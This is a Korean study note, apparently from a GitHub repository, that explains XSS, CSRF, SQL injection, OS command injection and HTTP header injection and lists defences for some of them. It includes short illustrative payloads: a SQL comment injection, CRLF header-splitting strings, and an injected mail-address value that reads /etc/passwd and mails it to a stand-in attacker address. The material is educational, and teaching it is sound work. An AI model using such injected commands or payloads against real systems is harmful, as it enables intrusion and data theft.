


# 웹 공격 기술

## 목차

- 크로스 사이트 스크립팅(XSS, cross-site scripting)
- 크로스 사이트 리퀘스트 포저리(CSRF, Cross Site Request Forgery)
- SQL Injection
- OS Command Injection
- HTTP Header Injection

## 크로스 사이트 스크립팅(XSS, cross-site scripting)

- 공격자가 웹 사이트에 코드를 첨부하여 피해자가 웹 사이트를 로드할때 코드가 실행되도록 하는 공격입니다.
- 다른말로 **클라이언트 측 코드 삽입 공격**이라고 합니다.

### 크로스 사이트 스크립팅 영향

- 가짜 입력 폼 등에 의해서 유저의 개인정보가 도둑맞습니다.
- 스크립트에 의해서 쿠키 값이 도둑맞거나 피해자가 의도하지 않은 리퀘스트를 송신됩니다.
- 가짜 문장이나 이미지 등이 표시됩니다.


1. 공격자가 피해자에게 스크립트가 담긴 링크를 전송합니다.
2. 피해자는 링크를 클릭하고 웹 사이트에 리퀘스트합니다.
3. 피해자의 브라우저는 웹 사이트를 로드합니다. 그런데 악성 스크립트또한 실행됩니다.
4. 악성 스크립트가 피해자의 개인 정보를 공격자에게 전송합니다.

### 클라이언트 측 코드란?

클라이언트 측 코드란 **사용자 컴퓨터에서 실행되는 자바스크립트 코드**입니다.

### 크로스 사이트 스크립팅의 예시

1. "<script></script>"태그로 감싼 실행 코드를 댓글로 작성합니다.
2. 다른 사용자가 해당 페이지를 클릭하면 스크립트 태크가 실행됩니다.

### 크로스 사이트 스크립팅 종류

- 반사형 크로스 사이트 스크립팅
    - 웹 사이트의 URL 끝에 악성 코드가 추가되어 실행되는 것
- 영구적 크로스 사이트 스크립팅
    - 페이지 로드시 다른 사용자의 브라우저가 콘텐츠에 있는 악성 코드를 실행하는 것

### 크로스 사이트 스크립팅 방지

- 가능한 입력에서 html 피하기
- 입력 유효성 검사
- 데이터 삭제
    - 웹 서버에 게시된 후 사용자에게 표시되기 전에 데이터를 삭제합니다.
- 쿠키 보안 조치 취하기
    - 쿠키 처리 특수 규칙 설정
    - 자바스크립트가 쿠키에 접근할 수 없도록 설정
- WAF 규칙 설정
    - 입력 검증 : 입력 필터링 통해서 SQL Injection, XSS 등 공격을 예방합니다.
        - 예를 들어 입력값 유효성 검증, 특수문자 제한, 금칙어 필터링 등 수행합니다.
    - 출력 검증 : 출력 필터링 통해서 XSS 공격을 예방합니다.
        - 예를 들어 HTML 태그를 필터링하거나, JS 코드를 실행하지 못하도록 처리합니다.
    - 세션 관리 : 세션 ID를 보호하고 CSRF 공격을 예방하기 위한 설정을 수행합니다.
        - 예를 들어 쿠키 보안 속성 설정이나, CSRF 토큰을 적용 할 수 있습니다.
    - 파일 업로드 제한: 악성 파일 업로드 공격을 예방하기 위해 파일 업로드 제한 설정을 수행합니다.
        - 예를 들어 파일 확장자 제한, 파일 크키 제한이 있습니다.
    - 보안 헤더 설정 : 웹 서버에서 전송하는 보안 헤더를 설정합니다.
        - 예를 들어 X-Frame-Options 헤더를 설정하여 Clickjacking 공격을 예방합니다.
        - Clickjacking 공격 : 사용자가 의도하지 않은 클릭을 유발하는 기법

## 크로스 사이트 리퀘스트 포저리(CSRF, Cross Site Request Forgery)

CSRF는 인증된 사용자가 웹 애플리케이션에 특정 요청을 보내도록 유도하는 공격입니다.
공격자의 요청이 사용자의 요청인 것처럼 속이는 공격방식이어서 크로스 사이트 요청 위조라고 합니다.

크로스 사이트 요청 위조는 사용자가 인증한 세션에서 웹 애플리케이션이 정상적인 요청과 비정상적인 요청을
구분하지 못하는 점을 악용하는 공격 방식으로 윕 애플리케이션이 사용자의 요청이 실제 사용자가 전송한
것인지 확인하지 않은 경우에 자주 발생합니다.

### CSRF 공격 방식

크로스 사이트 요청 위조는 데이터의 값을 변경하는 요청을 대상으로 합니다. 예를 들어
제품 구입, 계정 설정, 기록 삭제, 비밀번호 변경, 문자 전송 등이 있습니다. 공격자는 자금 송금이나
로그인 정보 변경 등 원하는 요청을 위조한 후 이메일이나 웹 사이트에 요청이 삽입된 하이퍼링크를 심어 놓습니다.
사용자가 해당 링크를 클릭하면 요청이 자동으로 전송됩니다.

### XSS와 CSRF 차이

- XSS는 인증된 세션이 없이도 공격을 진행할 수 있씁니다.
- CSRF는 사용자의 인증된 세션을 악용하는 공격 방식입니다.
- XSS는 사용자에게서 스크립트가 실행되지만 CSRF는 서버에서 스크립트가 실행됩니다.
- XSS는 정보 탈취가 주 목적이고, CSRF는 요청을 위조해서 사용자 몰래 송금과 제품 구입 등 하는 것을 목적으로 합니다.

### CSRF 예시

1. 공격자가 특정 은행의 계좌에서 공격자의 계좌로 천만 원을 송금하라는 요청을 위조합니다.
2. 위조한 요청은 하이퍼링크에 삽입해 이메일로 전송하거나 웹사이트 자체에 삽입합니다.
3. 사용자가 공격자가 생성한 이메일 하이퍼링크나 웹사이트 링크를 클릭하면 은행에 천만 원을 송금하라는 요청이 전송됩니다.
4. 요청을 받은 은행 서버는 사용자의 요청대로 송금을 진행합니다.

### CSRF 방지 방법

- CSRF 토큰 활용 : 요청이 사용자가 전송한 것이 맞는지 확인하거나 재 인증을 요구하는 등의 조치를 취합니다.

## SQL Injection
- SQL Injeciton은 웹 애플리케이션을 이용하고 있는 데이터베이스에 SQL을 부정하게 실행하는 공격입니다.
- 공격자에 의해서 개발자가 의도하지 않은 형태로 SQL 문장이 변경되어 구조가 파괴되는 공격입니다.

### SQL Injection 영향
- 데이터베이스 내의 데이터 부정 열람이나 변조
- 인증 회피
- 데이터베이스 서버를 경유한 프로그램 실행

### SQL Injection 사례
```
SELECT * FROM bookTbl WHERE author = '김용환' and flag = 1
```
위와 같은 정상적인 SQL에 SQL Injection을 하게 되면 다음과 같아집니다.

```
SELECT * FROM bookTbl WHERE author = '김용환' --' and flag = 1
```
SQL 문에서 '--' 이후는 주석으로 처리되어 and flag=1 조건은 무시됩니다.

## OS Command Injection
OS Command Injection 공격은 웹 애플리케이션을 경유하여 OS 명령으로 부정하게 실행하는 공겨입니다.

OS Command Injection은 커맨드 라인에서 프로그램을 기동시키는 쉘에 대해서 커맨드를 보낼 수 있습니다.
즉, OS 상에서 동작하는 다양한 프로그램을 실행할 수 있습니다.

### OS Command Injection 사례
다음 기능은 사용자가 문의를 보내면, 접수 완료하였다는 연락을 사용자가 입력한 메일 주소로 메일을 송신하는 기능입니다.



다음 코드는 사용자가 제출한 내용을 수신한 프로그램의 일부입니다.

```
my $adr = $q->param('mailaddress');
open(MAIL, "| /usr/sbin/sendmail $adr");
print MAIL "From: info@example.com\n";
```

프로그램에서는 open 함수에 의해서 sendEmail 커맨드를 호출해서 메일 주소에 지정된 값 $adr에 메일을 송신합니다.

여기서 공격자는 아래의 값을 메일 주소로 지정합니다.
```
; cat /etc/passwd | mail hack@example.jp
```

위 값을 수신했을때 프로그램 내에서 구성되는 명령어는 다음과 같습니다.
```
| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp
```

세미콜론(;)이 포함되면 OS 커맨드에 복수의 커맨드를 실행하기 위한 구별자로서 해석됩니다.

위 커맨드가 실행되면 /etc/passwd라는 리눅스의 계정 정보가 포함된 파일이 hack@example.jp로 메일로 송신됩니다.

## HTTP Header Injection
HTTP Header Injection은 **공격자가 리스폰스 헤더 필드에 개행 문자 등을 삽입해서 임의의 리스폰스 헤더 필드나 바디를 추가하는 수동적 공격**입니다.

그중에서 바디를 추가하는 공격은 **HTTP 리스폰스 분할 공격(HTTP Response Splitting Attack)** 이라고 부릅니다.

### HTTP Header Injection 공격 사례
다음 그림과 같이 카테고리를 선택하여 해당 각 카테고리의 페이지로 리다이렉트 시키는 기능이 있습니다.

이 기능은 카테고리마다 카테고리 ID가 설정되어 있고, 카테고리를 선택하면 리스폰스에 [Location:http://example.com/?cat=101]과 같이
Location 헤더 필드 내에 그 값이 반영되어 리다이렉트 합니다.



공격자는 카테고리 ID를 아래와 같이 고쳐서 리퀘스트를 보냅니다.

```
Location: http://example.com/?cat=101(%0D%0A: 개행 문자)
Set-Cookie: SID=123456789
```

이때 Set-Cookie 헤더 필드가 유효하기 때문에 공격자가 지정한 임의의 쿠키가 세팅되어 버립니다.

위와 같은 공격을 **세션 픽세이션(Session Fixation)** 이라는 공격자가 지정한 세션 ID를 사용하게 하는 공격과 조합해서 유저로 위장할 가능성이 있습니다.

### HTTP 리스폰스 분할 공격
HTTP 리스폰스 분할 공격은 HTTP Header Injection을 응용한 공격입니다.

개행 문자를 두번 연속으로 넣어서 HTTP 헤더와 바디를 나누는 빈행을 만들어내고 가짜 바디를 표시하는 공격입니다.

```
Set-Cookie:UID=(%0D%0A: 개행문자)
(%0D%0A: 개행문자)
<html><head><title>이후, 표시하고 싶은 페이지의 내용 =>
<!-- (원래 페이지 헤더와 바디는 주석으로 처리됨)
```

위와 같은 공격에 의해서 브라우저에 가짜 웹 페이지를 표시해서 개인 정보를 입력하게 하거나
 크로스 사이트 스크립팅과 같은 효과를 얻을 수 있습니다.

## References

- https://www.cloudflare.com/ko-kr/learning/security/threats/cross-site-scripting/
